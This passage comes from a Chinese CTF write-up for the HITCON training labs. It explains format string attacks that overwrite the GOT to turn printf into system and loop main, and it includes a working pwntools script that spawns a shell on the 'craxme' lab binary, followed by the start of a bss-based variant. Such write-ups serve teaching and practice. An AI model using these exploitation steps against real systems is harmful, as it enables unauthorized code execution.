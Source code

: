 方法二：

利用格式化字符串漏洞除了<u>修改变量，泄露cannary，还可以尝试修改GOT表</u>：

- 获取到`printf`函数的got表地址
- 然后把这个地址的值改为`system`函数的地址
- 在下次运行`printf`的时候，输入`/bin/sh`
- 则`printf(a);`实际执行的却是`system('/bin/sh')`

对于本题，只有一个printf(&buf)，即只有一个漏洞点，因此要想办法反复利用main中的格式化字符串漏洞。但是没有栈溢出点，重新触发main是不太可能了。

想法：

- 利用第一次printf(&buf)，修改got['puts']为0x0804858B，这个地址是main中read上面的位置【printf("Give me magic :");之前，也可在之后】。同时也将printf改成system的plt表地址。
- 那么第一次printf(&buf)执行完，got['puts']=0x0804858B；plt["printf"]=plt['system']
- 由于magic不对，会进入else分支。执行puts("You need be a phd");
- 即call _puts，相当于跳转到got['puts']=0x0804858B。从而回到main中read上面的位置【printf("Give me magic :");之后】
- 重新触发main，执行read(0, &buf, 0x100u);和printf(&buf);
- read时输入“\bin\sh”，再执行printf(&buf);就相当于执行了system("\bin\sh")
- 这样就可以拿到shell了。

```python
#coding=utf8
from pwn import *
context.log_level = 'debug'

fmt_len = 7

cn = process('./craxme')
bin = ELF('./craxme')

cn.recv()
pay = fmtstr_payload(fmt_len,{bin.got['puts']:0x0804858B,bin.got['printf']:bin.plt['system']}) 
#0x0804858B也可为0x08048591等
cn.sendline(pay)
cn.recv()

cn.interactive()
```

![](C:\Users\asus\spidermana.github.io\assets\img\hitconlab84.png)

### lab9

这题的知识点是在考核bss段格式化字符串漏洞如何利用？

和lab7、lab8相比，难度在于read进来的数据不在栈上！

那么对于输入addr%k$n【实现任意地址写】或addr%k$s【实现任意地址读】放在栈上这种方式就不能使用，也就是说无法实现对任意地址的操作【放在栈上的情况下，可以设置addr并且配置一定的k偏移，是可以对任意addr进行读写的】。现在即使写入addr%k$n，也无法通过k偏移获取到这个addr，因为addr%k$n放在bss段上。

##### 关键思路

现在我们就要想另外一种办法来构造任意addr。这样可以通过构造addr为printf_got表地址，从而泄露printf在libc中的真实地址，再根据偏移求解出system的地址。再通过构造addr为printf_got表地址，写入system的地址，从而调用printf(&buf)=>system(&buf)
